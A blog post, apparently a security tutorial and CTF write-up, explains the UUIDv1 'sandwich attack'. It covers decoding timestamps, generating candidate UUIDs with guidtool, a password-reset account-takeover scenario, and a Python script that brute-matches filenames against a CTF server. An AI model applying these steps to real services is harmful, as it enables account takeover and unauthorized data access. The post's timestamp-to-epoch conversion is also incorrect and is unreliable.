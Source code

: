 ```yaml
---
title: "UUID Sandwich Exploitation"
layout: post
tags: [hacking, cybersecurity]
image: /assets/images/uuidv1.png

---
```


### UUID Sandwich Attack – Version 1

A **UUID** (Universally Unique Identifier), also known as **GUID**, has both vulnerable versions and stronger iterations that have emerged over time. These randomly generated unique values are produced at micro- or nanosecond precision. Although the chance of duplication is extremely low, it is never truly zero. Identical values *can* be generated, though detecting them is extremely difficult. The probability of duplication is low but never zero.

**Example UUID**:  
```
f81d4fae-7dec-11d0-a765-00a0c91e6bf6
```

### Exploitation

The **Sandwich Attack** usually appears in **UUID version 1**, which relies on time and MAC address for generation. This can lead to vulnerabilities such as **Account Takeover, BOLA, or IDOR**. UUIDv1 values produced within the same timestamp can be duplicated, enabling exploitation.

On Linux, you can generate values with the `uuid` command.

UUID v1: `6ea0f896-3144-11ef-a367-005056260027` & `6f03f496-3144-11ef-86bc-005056260027`  
Here, the values `a367` and `86bc` differ, but the MAC portion `005056260027` remains constant.

UUID v4: `60a0cf20-f5a8-4ea2-9469-d4269f0a5bc8` & `62f4a612-6d64-48a2-a271-26217702999e`  
Here the difference is complete. UUIDv4 offers ~99.9% safety, but UUIDv1 significantly increases risk.

For exploitation, see Burp Suite extension:  
https://portswigger.net/bappstore/65f32f209a72480ea5f1a0dac4f38248  

Also reference: https://datatracker.ietf.org/doc/html/rfc4122  

![uuidv1](/assets/images/uuidv1.png)

### 10 Sequential Generations

```js
f2c6e440-3145-11ef-8465-0800200c9a66
f2c6e441-3145-11ef-8465-0800200c9a66
f2c6e442-3145-11ef-8465-0800200c9a66
f2c6e443-3145-11ef-8465-0800200c9a66
f2c6e444-3145-11ef-8465-0800200c9a66
f2c6e445-3145-11ef-8465-0800200c9a66
f2c6e446-3145-11ef-8465-0800200c9a66
f2c6e447-3145-11ef-8465-0800200c9a66
f2c6e448-3145-11ef-8465-0800200c9a66
f2c6e449-3145-11ef-8465-0800200c9a66
```

As seen, time is highly sensitive:

`Timestamp: 139384289967400006`  
`Timestamp: 139384289967400007`  

The changing part `f2c6e447-3145-11ef` encodes the time. The MAC portion `08:00:20:0c:9a:66` often remains static.

### UUID Extraction

Example UUID: `5c1dba54-ee3e-11ee-a951-0242ac120002`  
Time portion: `1eeee3e5c1dba54`  

![uuid extract](/assets/images/UUID2.jpg)

Decode timestamp:  

```js
printf "%d\n" 0x1eeee3e5c1dba54
139310590095899220
```

Convert to decimal:  

```sh
echo "scale=9; 139310590095899220 / 10^8" | bc
1393105900.958992200
```

This corresponds to Epoch time `Saturday, 30 March 2024 02:36:49`.  

Using GuidReaper:  

```js
GuidReaper -d "5c1dba54-ee3e-11ee-a951-0242ac120002"
GUID version: 1
Time: 2024-03-30 02:36:49.589922
Timestamp: 139310590095899220
Node: 2485377957890
MAC address: 02:42:ac:12:00:02
Clock sequence: 10577
```

Reverse engineering UUIDv1 allows exploitation using **Time Manipulation**.

### Exploitation Scenario

1. Suppose the system generates a password reset link using UUID.  
2. Attacker account: `uuid@attack.com`, victim account: `victim@attack.com`.  
3. Both trigger password reset at the same time.  

Victim link:  

```php
https://server/reset_password?reset=dc464b70-314a-11ef-8465-0800200c9a66&user=victim@attack.com
```  
Time: 2024-06-23 10:25:06.471000  

Attacker link:  

```php
https://server/reset_password?reset=de7a4270-314a-11ef-8465-0800200c9a66&user=uuid@attack.com
```  
Time: 2024-06-23 10:25:10.167000  

A 4-second difference shows how concurrency flaws could enable account takeover.  

With GuidTool, UUIDs can be generated for specific timestamps:  

```js
guidtool.py 667b8570-0d84-11ef-9ed0-0800200c9a66 -t "1923-10-29 20:30:00" -p 1 
```

This produces many values for a target time. Such weaknesses can lead to **BOLA**, **IDOR**, or **Account Takeover**.  

See: [Uuid-Exploitation](https://github.com/cagrieser/Uuid-Exploitation)  

### CTF Scenario

In an IguCTF challenge, we exploited UUIDv1 Sandwich to access unauthorized files and retrieve a flag.  

![igu cyber](/assets/images/IguCyber.png)

Hashing filenames locally avoids server overload. Example script:  

```py
import hashlib
from colorama import init, Fore
import PyPDF2
import requests
import io 

init(autoreset=True)

target_hash = 'def3c4c32117683fcffad14e3b2a9b5d'

def md5_hash(text):
    return hashlib.md5(text.encode()).hexdigest()

def get_pdf_metadata_from_url(pdf_url):
    response = requests.get(pdf_url)
    if response.status_code == 200:
        pdf_content = response.content
        pdf_file = PyPDF2.PdfFileReader(io.BytesIO(pdf_content))
        return pdf_file.getDocumentInfo()
    return None

with open('FullAttackUUID.txt', 'r') as file:
    for line in file:
        filename = line.strip() + '.pdf'
        if md5_hash(filename) == target_hash:
            print(Fore.GREEN + f"Match found: {filename}")
            url = f"https://demindensimdiyegeldim.igusiber.com.tr/{filename}"
            metadata = get_pdf_metadata_from_url(url)
            if metadata:
                for key, value in metadata.items():
                    print(f"{key}: {value}")
            break
```

### Final

UUIDv1 is predictable due to timestamps and MAC addresses, making it exploitable. UUIDv4 is safer, but UUIDv1 remains in use, creating risks.

![exp](/assets/images/exp.png)  

---
<!-- Share Buttons Start -->
<div class="share-buttons">
  <p>Share this post:</p>
  <a class="share-btn twitter" href="https://twitter.com/intent/tweet?text=UUID Sandwich Exploitation&url={{ page.url | absolute_url }}" target="_blank">Twitter</a>
  <a class="share-btn facebook" href="https://www.facebook.com/sharer/sharer.php?u={{ page.url | absolute_url }}" target="_blank">Facebook</a>
  <a class="share-btn reddit" href="https://www.reddit.com/submit?url={{ page.url | absolute_url }}&title=UUID Sandwich Exploitation" target="_blank">Reddit</a>
</div>

<style>
.share-buttons {
  margin-top: 30px;
  font-family: sans-serif;
}
.share-buttons p {
  margin-bottom: 8px;
  font-weight: bold;
}
.share-buttons .share-btn {
  display: inline-block;
  margin-right: 8px;
  padding: 8px 14px;
  color: #fff;
  text-decoration: none;
  border-radius: 5px;
  font-size: 14px;
  transition: opacity 0.2s;
}
.share-buttons .share-btn:hover {
  opacity: 0.8;
}
.share-buttons .twitter { background: #1da1f2; }
.share-buttons .facebook { background: #4267B2; }
.share-buttons .reddit { background: #ff4500; }
</style>
<!-- Share Buttons End -->

## Acknowledgment

I would like to sincerely thank [Çağrı Eser](https://cagrieser.com/) for his invaluable contributions and support.  

You can connect with him on [LinkedIn](https://www.linkedin.com/in/cagrieser/).



